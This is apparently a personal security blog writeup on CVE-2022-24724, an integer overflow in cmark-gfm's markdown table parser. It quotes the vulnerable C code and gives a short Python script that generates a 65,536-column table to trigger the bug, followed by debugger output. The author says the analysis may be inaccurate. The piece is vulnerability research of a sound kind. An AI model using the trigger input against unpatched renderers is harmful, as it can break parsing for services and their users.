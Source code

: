 ```yaml
---
layout: post
title: Anhphan.md?
subtitle: Small talk about CVE-2022-24724 - recent markdown table parsing bug
tags: [pwn, writeup]
---
```


Note: I'm new in researching stuff so this post might not be so "accurate" 💀

```
| Còng | số  | 8   | siết | tay   | anh  |    |
|------|-----|-----|------|-------|------|----|
| Giam | giữ | đời | anh  | trong | ngục | tù |
```

Yeah, that is a markdown table. Just a few days ago there is a [integer overflow bug](https://github.com/github/cmark-gfm/security/advisories/GHSA-mc3g-88wq-6f4x) in cmark-gfm's table row parsing mechanism. So i decided to look around to see if i could be able to find something interesting :p

table.c:
```C
typedef struct {
  uint16_t n_columns; // [1]
  int paragraph_offset;
  cmark_llist *cells;
} table_row;


...


static table_row *row_from_string(cmark_syntax_extension *self,
                                  cmark_parser *parser, unsigned char *string,
                                  int len) {
  // Parses a single table row. It has the following form:
  // `delim? table_cell (delim table_cell)* delim? newline`
  // Note that cells are allowed to be empty.
  //
  // From the GitHub-flavored Markdown specification:
  //
  // > Each row consists of cells containing arbitrary text, in which inlines
  // > are parsed, separated by pipes (|). A leading and trailing pipe is also
  // > recommended for clarity of reading, and if there’s otherwise parsing
  // > ambiguity.

  table_row *row = NULL;
  bufsize_t cell_matched = 1, pipe_matched = 1, offset;
  int expect_more_cells = 1;
  int row_end_offset = 0;

  row = (table_row *)parser->mem->calloc(1, sizeof(table_row));
  row->n_columns = 0; // [2]
  row->cells = NULL;

  // Scan past the (optional) leading pipe.
  offset = scan_table_cell_end(string, len, 0);

  // Parse the cells of the row. Stop if we reach the end of the input, or if we
  // cannot detect any more cells.
  while (offset < len && expect_more_cells) {


...


      row->n_columns += 1; // [3]
      row->cells = cmark_llist_append(parser->mem, row->cells, cell);
    }


...


  if (offset != len || row->n_columns == 0) { // [4]
    free_table_row(parser->mem, row);
    row = NULL;
  }

  return row;
}
```

Functions analysis:

free_table_row actually calls `cmark_llist_free_full`:

Look at [1], you can see that the `n_column` is uint16_t type, which ranges from 0x0 to 0xffff.

[2] Before parsing a row the program reset `n_column` to 0.

[3] Every "cell" passing by the `n_column` value will be increased by 1.

[4] This checks if the parsing has been processed correctly, if:

- some unexpected behavior (`offset != len`, everytime the program bypass a "\|" character the `offset` will be increased, the `len` is the length of a line of the table) happens.

- the number of columns is valid (`row->n_columns == 0`)

If 2 conditions above are not satisfied, then the program will abort table parsing process (by return a NULL "table_row" pointer).

Functions analysis:

`free_table_row` actually calls `cmark_llist_free_full`:

```C
void cmark_llist_free_full(cmark_mem *mem, cmark_llist *head, cmark_free_func free_func) {
  cmark_llist *tmp, *prev;

  for (tmp = head; tmp;) {
    if (free_func)
      free_func(mem, tmp->data);

    prev = tmp;
    tmp = tmp->next;
    mem->free(prev);
  }
}


...


static void free_table_cell(cmark_mem *mem, void *data) {
  node_cell *cell = (node_cell *)data;
  cmark_strbuf_free((cmark_strbuf *)cell->buf);
  mem->free(cell->buf);
  mem->free(cell);
}


...


cmark_llist_free_full(mem, row->cells, (cmark_free_func)free_table_cell);
```

<span class="color-orange">This is simple just free all the cell-pointers on a row. Not thing particular to exploit here.</span>

To make sure i analysed the bug correctly i wrote a small script to generate buggy markdown:
```python
table = ''

for i in range(0x10000):
    table+='|   '
table+='|\n'

for i in range(0x10000):
    table+='|---'
table+='|\n'

print(table)
```

The upper bound of uint16_t data type is 0xffff and 0x10000 row will trigger the integer overflow bug. I tested it and right.
```
*RAX  0x1
*RBX  0x0
*RCX  0x40001
*RDX  0x0
*RDI  0x7ffff7b03d11 ◂— 0xa /* '\n' */
 RSI  0x7ffff7ac3d10 ◂— 0x2020207c2020207c ('|   |   ')
*R8   0x1
*R9   0x0
*R10  0xffffffffffffffff
*R11  0x7ffff6bf95d8 —▸ 0x7ffff7fba460 (CMARK_ARENA_MEM_ALLOCATOR) —▸ 0x7ffff7fa0680 (arena_calloc) ◂— endbr64 
*R12  0x7ffff7ac3d10 ◂— 0x2020207c2020207c ('|   |   ')
*R13  0x40002
*R14  0x55555555cb68 ◂— 0x0
*R15  0x40001
*RBP  0x40002
*RSP  0x7fffffffcd30 ◂— 0x7fff00000001
*RIP  0x7ffff7fbf850 (row_from_string.isra+480) ◂— cmp    r13d, ebp
─────────────────────────────────────────────────────────[DISASM]────────────────────────────────────────────────────────
 ► 0x7ffff7fbf850 <row_from_string.isra+480>    cmp    r13d, ebp
   0x7ffff7fbf853 <row_from_string.isra+483>    jne    row_from_string.isra+512                <row_from_string.isra+512>
 
   0x7ffff7fbf855 <row_from_string.isra+485>    cmp    word ptr [r14], 0
   0x7ffff7fbf85a <row_from_string.isra+490>    je     row_from_string.isra+512                <row_from_string.isra+512>
    ↓
   0x7ffff7fbf870 <row_from_string.isra+512>    mov    rax, qword ptr [rsp + 8]
   0x7ffff7fbf875 <row_from_string.isra+517>    mov    rsi, qword ptr [r14 + 8]
   0x7ffff7fbf879 <row_from_string.isra+521>    lea    rdx, [rip - 0x890]            <0x7ffff7fbeff0>
   0x7ffff7fbf880 <row_from_string.isra+528>    mov    rbx, qword ptr [rax]
   0x7ffff7fbf883 <row_from_string.isra+531>    mov    rdi, rbx
   0x7ffff7fbf886 <row_from_string.isra+534>    call   cmark_llist_free_full@plt                <cmark_llist_free_full@plt>
 
   0x7ffff7fbf88b <row_from_string.isra+539>    mov    rdi, r14
```

In which [r14] is row->n_columns, you can see `R14  0x55555555cb68 ◂— 0x0`. That's where the bug was triggered, you could test it on your own and see that the table parsing is no longer work, but i don't think this bug capable of performing RCE in such small program (own opinion), it might be able to trigger RCE if implemented seperately on larger system.
